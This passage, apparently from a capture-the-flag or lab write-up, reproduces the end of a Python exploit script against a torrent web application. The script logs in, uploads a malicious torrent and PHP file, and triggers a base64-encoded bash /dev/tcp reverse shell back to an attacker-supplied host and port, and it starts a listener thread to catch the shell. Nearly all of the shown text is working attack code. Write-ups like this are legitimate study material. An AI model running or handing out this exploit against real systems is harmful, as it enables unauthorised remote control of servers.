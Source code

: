 ```py
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/torrent/upload/%s.php" %(rhost,torrent_id_true)
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-user', '--username', help='Username of the app', required=True)
    parser.add_argument('-pass', '--password', help='Password of the user app', required=True)
    parser.add_argument('-li', '--localhost', help='Local ip to receive the reverse shell', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    password = args.password
    lhost = args.localhost
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Login on the app
    loginApp(rhost,username,password)
    # Upload the malicious torrent
    maliciousUpload(rhost)
    # Get the torrent id
    getTorrentIT(rhost)
    # Upload the malicious php file
    maliciousUploadPHP(rhost,torrent_id_true)
    # Get the rev shell
    getReverse(rhost,lhost,lport,torrent_id_true)

if __name__ == '__main__':
    main()
```

Now we could procced on the privilege escalation

